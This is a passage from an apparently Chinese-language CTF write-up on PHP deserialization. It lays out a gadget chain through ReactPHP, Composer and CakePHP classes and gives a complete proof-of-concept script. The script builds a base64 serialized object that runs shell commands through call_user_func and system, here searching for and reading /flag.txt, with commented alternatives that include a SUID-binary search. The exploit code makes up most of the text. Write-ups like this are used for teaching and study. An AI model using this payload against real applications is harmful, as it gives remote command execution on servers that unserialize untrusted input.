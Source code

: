 这样的话 `$mapper` 和 `$reducer` 都可以用来执行命令，我这里使用 `$mapper`

所以要利用的链子是

```pop
RejectedPromise::__destruct()->Pool::__toString()->MapReduce::_execute()
```



 

poc 如下

```php
<?php

namespace React\Promise\Internal;
use Composer\DependencyResolver\Pool;
class RejectedPromise {
    private $reason;
    private $handled = false;
    public function __construct() {
        $this->reason = new Pool();
    }
}

namespace Composer\DependencyResolver;
use Cake\Collection\Iterator\MapReduce;
class Pool {
    protected $packages = [];
    public function __construct() {
        $this->packages = new MapReduce();
    }
}

namespace Cake\Collection\Iterator;
class MapReduce {
    protected bool $_executed = false;
    protected iterable $_data;
    protected $_mapper;
    public function __construct() {
        $this->_mapper = "call_user_func";
        // $cmd = "ls /";
        // $cmd = "cat /flag.txt";
        // $cmd = "find / -perm -u=s -type f 2>/dev/null";
        // $cmd = "find / -name flag.txt -exec whoami \;";
        $cmd = "find / -name flag.txt -exec cat /flag.txt \;";
        $this->_data = [$cmd=>"system"];
    }
}

namespace React\Promise\Internal;
echo base64_encode(serialize(new RejectedPromise()));

?>
```

